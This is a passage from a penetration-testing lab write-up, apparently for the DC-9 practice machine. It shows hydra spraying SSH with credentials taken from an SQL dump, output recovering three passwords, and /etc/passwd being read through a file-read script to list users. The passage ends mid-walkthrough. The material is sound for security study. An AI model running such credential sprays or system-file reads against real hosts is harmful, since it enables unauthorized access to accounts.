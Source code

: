 ### Password spray (Combo List)

Use the previous list gathered from SQL dump

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ hydra -e nsr -C loot/user_password.lst ssh://DC-9 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-04 13:46:55
[DATA] max 4 tasks per 1 server, overall 4 tasks, 72 login tries, ~18 tries per task
[DATA] attacking ssh://DC-9:22/
[22][ssh] host: DC-9   login: chandlerb   password: UrAG0D!
[22][ssh] host: DC-9   login: joeyt   password: Passw0rd
[STATUS] 60.00 tries/min, 60 tries in 00:01h, 12 to do in 00:01h, 4 active
[22][ssh] host: DC-9   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-04 13:48:08
```

### Password spray (Cluster Bomb)

It is a good practice to try every combinations. Since it is slow, run in the background while doing other jobs

Get a list of users on the host

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ python read_file.py '/etc/passwd' | grep sh$ | awk -F ':' '{print $1}' | tee users.lst
root
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
```

Extract all passwords gathered from SQL dump
